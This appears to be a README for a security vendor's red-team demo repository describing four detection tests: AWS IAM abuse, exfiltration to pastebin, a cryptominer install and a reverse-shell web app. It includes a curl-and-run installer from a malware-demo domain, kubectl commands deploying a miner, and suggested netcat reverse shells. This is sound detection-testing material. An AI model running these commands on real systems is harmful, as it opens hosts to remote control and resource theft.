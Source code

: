 # Red Team Examples
Red team examples and sample code.  
  
### About Red Teaming
The purpose of red team testing is to validate the state of an environment by simulating an attack. Red team tests are performed by a group of security professionals.  
  
Red teams are responsible for testing the organization's detection and response capabilities by attempting to gain access to systems or data covertly.   
  - The team will carry out different attacks, with the flexibility to use different techniques (phishing/spearphishing, exploiting vulnerabilities in software, social engineering, etc.).   
  - The end goal of the red team is to get as much access/data as possible without being detected.   
  - At the end of the engagement, the red team delivers a report of actions taken by their team.  
  - The red team and blue team (which is the internal security team that is responsible for defending against the red team/attackers) compare notes on what was/wasn’t detected, allowing the security team to understand and correct gaps in coverage/detections.  
    
These examples are simple to run but display behaviours that will test the validity of security systems.   
  
### 1. AWS Account Exploit  
  
This script performs AWS CLI commands to simulate offensive security actions:   
  - lists EC2 instances, security groups, secrets for each region. 
  - creates a new AWS IAM user eg. 'baduser' with power user privileges.    
  - using 'baduser', creates an S3 bucket, and puts a file into it.  
  - cleans up: deletes the bucket, deletes 'baduser'.
  - accepts an optional argument for the username that gets created, otherwise defaults to `baduser`. 
  
##### Prerequisites
  - AWS CLI with profile set. 

##### Usage
Arguments: newusername awsprofile. 
  
```bash 
cd aws_account_exploit
sh ./aws-lateral-movement.sh baduser default
```
  
### 2. Exfiltration Simulation
  
This example pulls data down some random endpoints and then attempts to post it to pastebin. The script does not do anything inherently malicious but is the type of activity indicating data exfiltration.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent
  - Golang 
  
##### Usage
```bash
apt install golang
  
  
cd GoExfil
go build
go run BasicExfil.go
```
  
### 3. Cryptominer
  
This example installs and runs XMRig, which is a cryptominer. The installation is not malware and does not propagate. 
  
The Crypto Mining script should be run on a standalone EC2 Instance or Kubernetes deployment with Lacework installed. The exploit will only execute in interactive mode, so once the script is terminated, the exploit will be terminated. It’s recommended to run for at least 1 hour to ensure all steps in the exploit are executed.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent.  
  - (alternative) AWS K8s Cluster with Lacework Agent.  
  
##### Linux VM Deployment
```bash
curl http://lwmalwaredemo.com/install-demo-1.sh -o install-demo-1.sh; sh install-demo-1.sh;
```
  
##### Kubernetes Deployment
Deploys a crypto miner malware example for testing the Lacework agent. 
  
Run the following command to deploy the example.  
```bash
kubectl apply -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
  
Run the following command to delete the example.  

```bash
kubectl delete -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
Here is the script:  
https://github.com/lacework-dev/scripts/blob/main/k8s-crypto-miner.yaml
  
### 4. Lacework Traffic Generator & Reverse Shell
This project is a browser based web app designed to allow a user to evaluate Lacework anomaly detection. The nodejs app, when run, generates a baseline amount of activity for Lacework to detect. It also includes a reverse shell feature to allow the tester to trigger anomalous and known-bad alerts commonly seen in real-world breaches.

```
NOTE: This project does allow unauthenticated access to a shell on the host / network it is running on. It also serves html direct from the filesystem with a very barebones nodejs based http server. It is highly recommended to only allow access to it from controlled IP ranges. Use at your own risk, no warranties or liability is assumed
```
##### Baselining
When run as a container, the app will make outbound connections to two public facing anonymous APIs (the baseline activity). These APIs are:  
  - The Hacker News "new stories" feed
  - The Cat Facts "random cat fact" API
  
##### Reverse Shell
After 3 hours of running / baselining, a reverse shell is enabled, which allows the tester to run any shell command as the user who owns the parent process. Examples of the types of tests one can run are:  
  - curl a known bad host such as https://donate.v2.xmrig.com  
  - nmap the local subnet   
  - Downloading and running crypto miners.  
  - Opening a true reverse shell with nc. 

##### How to Run on an EC2
  - Install npm and nodejs with apt-get or yum
```bash
## Clone the repo
git clone https://github.com/lacework-community/reverse-shell-simulation-app.git reverse-shell-simulation-app

cd reverse-shell-simulation-app/app
node server.js &
disown
```
At this point you can access the app from http://<public_ip>:8080/ntg-frontend.html  
  
##### Source
https://github.com/lacework-community/reverse-shell-simulation-app
  
  
  
